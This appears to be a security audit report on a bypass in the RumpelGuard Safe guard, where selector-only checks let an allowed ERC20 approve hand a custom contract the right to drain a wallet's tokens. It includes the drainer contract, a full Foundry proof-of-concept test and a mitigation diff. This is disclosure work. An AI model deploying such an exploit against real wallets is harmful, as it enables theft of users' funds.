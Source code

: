 Brave Satin Hawk

High

# A user can bypass the rumbel guard and withdraw tokens

### Summary

The rumpel guard [function checkTransaction](https://github.com/sherlock-audit/2024-07-sense-points-marketplace/blob/main/rumpel-wallet/src/RumpelGuard.sol#L33) does not check external calls as long as they use the correct selector. Therefor a user could approve a special deployed contract in order to transfer some tokens even though it should not be allowed (see Internal pre-conditions).

### Root Cause

[RumpelGuard.sol:33 - checkTransaction](https://github.com/sherlock-audit/2024-07-sense-points-marketplace/blob/main/rumpel-wallet/src/RumpelGuard.sol#L33) allows the protocol to limit the actions a safe wallet is allowed to perform. The target address and function selector of the intended call are verified based settings supplied by the owner (aka. the protocol).

The idea of the safe module/guard combination is to allow user to use their wallet like a Point Tokenization Vault (PTV) without having to deposit the tokens to the vault itself. The main actions the rumpel guard allows are actions that allow user's to enter and exit point earning positions. As most protocols use a pull-based system to transfer in tokens (user calls contract -> contract calls transfer from), it is _necessary to be allowed to call approve on the ERC20's_.

This allows users to approve any contract of their choice, as the guard does not check the rest of the calldata [see](https://github.com/sherlock-audit/2024-07-sense-points-marketplace/blob/main/rumpel-wallet/src/RumpelGuard.sol#L75-L80):
```soldity
// For all other calls, we check the allowedCalls mapping normally.
if (allowedCalls[to][functionSelector] == AllowListState.OFF) {
    revert CallNotAllowed(to, functionSelector);
}
```

Therefor a user can deploy a contract like this:
```soldity
contract POC_Contract {
    address owner;

    constructor() {
        owner = msg.sender;
    }

    function withdrawTokens(address safeWallet, address token) external {
        uint256 balanceOfSender = ERC20(token).balanceOf(safeWallet);
        ERC20(token).transferFrom(safeWallet, owner, balanceOfSender);
    }
}
```

After approving the newly deployed contract. The user can call withdrawTokens(). The function will transfer the full balance of the selected ERC20 token to the owner, an address set at contract creation.

### Internal pre-conditions

1. Transfer calls are disabled (`ERC20.transfer()` selectors on ERC20 contracts)
2. Approve calls are allowed (`ERC20.approve()` selectors on ERC20 contracts)

### External pre-conditions

None

### Attack Path

1. Deploy POC contract - contract with a function to transfer tokens from the safe wallet to some receiver address
2. Approve the contract, this will be allowed by the rumple guard
3. Call the contract to transfer the ERC20

### Impact

A user can withdraw tokens even though the transfer of that token is disabled.

### PoC

Below is the full POC as a diff inside the [RumpelWallet.t.sol](https://github.com/sherlock-audit/2024-07-sense-points-marketplace/blob/main/rumpel-wallet/test/RumpelWallet.t.sol):

```diff
--- a/RumpelWallet.t.sol.orig
+++ b/RumpelWallet.t.sol
@@ -19,6 +19,20 @@ import {ISafeProxyFactory} from "../src/interfaces/external/ISafeProxyFactory.so
 import {ISignMessageLib} from "../src/interfaces/external/ISignMessageLib.sol";
 import {RumpelWalletFactoryScripts} from "../script/RumpelWalletFactory.s.sol";
 
+
+contract POC_Contract {
+    address owner;
+
+    constructor() {
+        owner = msg.sender;
+    }
+
+    function withdrawTokens(address safeWallet, address token) external {
+        uint256 balanceOfSender = ERC20(token).balanceOf(safeWallet);
+        ERC20(token).transferFrom(safeWallet, owner, balanceOfSender);
+    }
+}
+
 contract RumpelWalletTest is Test {
     RumpelWalletFactory public rumpelWalletFactory;
     RumpelModule public rumpelModule;
@@ -430,6 +444,51 @@ contract RumpelWalletTest is Test {
         assertEq(address(alice).balance, 0.1 ether);
     }
 
+    function test_poc() public {
+        address[] memory owners = new address[](1);
+        owners[0] = address(alice);
+
+        InitializationScript.InitCall[] memory initCalls = new InitializationScript.InitCall[](0);
+        ISafe safe = ISafe(rumpelWalletFactory.createWallet(owners, 1, initCalls));
+
+        // deploy POC contract
+        address receiver = address(1337);
+        vm.prank(receiver);
+        POC_Contract poc = new POC_Contract();
+
+        // Enable approve on mock token
+        vm.prank(admin);
+        rumpelGuard.setCallAllowed(address(mockToken), ERC20.approve.selector, RumpelGuard.AllowListState.ON);
+
+        // add tokens to safe
+        uint256 amountToMint = 100e18;
+        mockToken.mint(address(safe), amountToMint);
+
+        // store before balance
+        uint256 safeBalance = mockToken.balanceOf(address(safe));
+        assertEq(safeBalance, amountToMint); 
+
+        // approve mock token to POC contract
+        this._execSafeTx(
+            safe,
+            address(mockToken),
+            0,
+            abi.encodeCall(ERC20.approve, (address(poc), safeBalance)),
+            Enum.Operation.Call
+        );
+
+        // receiver should not have any tokens
+        uint256 receiverBalance = mockToken.balanceOf(receiver);
+        assertEq(receiverBalance, 0);
+
+        // send call to POC contract
+        poc.withdrawTokens(address(safe), address(mockToken));
+
+        // check balance
+        assertEq(mockToken.balanceOf(address(safe)), 0);
+        assertEq(mockToken.balanceOf(receiver), safeBalance);
+    }
+
     function test_RumpelWalletConfigUpdateAuth() public {
         address[] memory owners = new address[](1);
         owners[0] = address(alice);
```

### Mitigation

The user should not be allowed to approve an arbitrary contract. It should verify the rest of the calldata to allow a finer selection of approved calls. By looking at the calldata, the rumpel guard can determine the spender of the approve call and compare it to a list of allowed spenders. A possible solution could look like this:
```diff
--- a/RumpelGuard.sol.orig
+++ b/RumpelGuard.sol
@@ -6,10 +6,13 @@ import {Ownable} from "@openzeppelin/contracts/access/Ownable.sol";
 import {Enum} from "./interfaces/external/ISafe.sol";
 import {IGuard} from "./interfaces/external/IGuard.sol";
 
+import {ERC20} from "solmate/tokens/ERC20.sol";
+
 /// @notice Rumpel Safe Guard with a blocklist for the Rumpel Wallet.
 /// @dev Compatible with Safe v1.3.0-libs.0, the last Safe Ethereum mainnet release, so it can't use module execution hooks.
 contract RumpelGuard is Ownable, IGuard {
     mapping(address => mapping(bytes4 => AllowListState)) public allowedCalls; // target => functionSelector => allowListState
+    mapping(address => AllowListState) public allowedSpenders;
 
     address public immutable signMessageLib;
 
@@ -33,7 +36,7 @@ contract RumpelGuard is Ownable, IGuard {
     function checkTransaction(
         address to,
         uint256,
-        bytes memory data,
+        bytes calldata data,
         Enum.Operation operation,
         uint256,
         uint256,
@@ -60,9 +63,7 @@ contract RumpelGuard is Ownable, IGuard {
             }
         }
 
-        bool toSafe = msg.sender == to;
-
-        if (toSafe) {
+        if (msg.sender == to) {
             // If this transaction is to a Safe itself, to e.g. update config, we check the zero address for allowed calls.
             if (allowedCalls[address(0)][functionSelector] == AllowListState.OFF) {
                 revert CallNotAllowed(to, functionSelector);
@@ -77,6 +78,14 @@ contract RumpelGuard is Ownable, IGuard {
             if (allowedCalls[to][functionSelector] == AllowListState.OFF) {
                 revert CallNotAllowed(to, functionSelector);
             }
+
+            if (functionSelector == ERC20.approve.selector) {
+                // Verify the spender is safe to approve, allow any spender if approval is revoked
+                (address spender, uint256 amount) = abi.decode(data[4:], (address, uint256));
+                if (amount > 0 && allowedSpenders[spender] == AllowListState.OFF) {                
+                    revert CallNotAllowed(to, functionSelector);
+                }
+            }
         }
     }
 
@@ -105,4 +114,12 @@ contract RumpelGuard is Ownable, IGuard {
         allowedCalls[target][functionSelector] = allowListState;
         emit SetCallAllowed(target, functionSelector, allowListState);
     }
+
+    function setAproveAllowed(address spender, AllowListState allowListState) external onlyOwner {        
+        if (allowedSpenders[spender] == AllowListState.PERMANENTLY_ON) {
+            revert PermanentlyOn();
+        }
+
+        allowedSpenders[spender] = allowListState;
+    }
 }
```

Notice: `bytes memory data` -> `bytes calldata data` to allow slicing the data (`data[4:]`)
Notice: removed `bool toSafe` because of stack too deep issues 
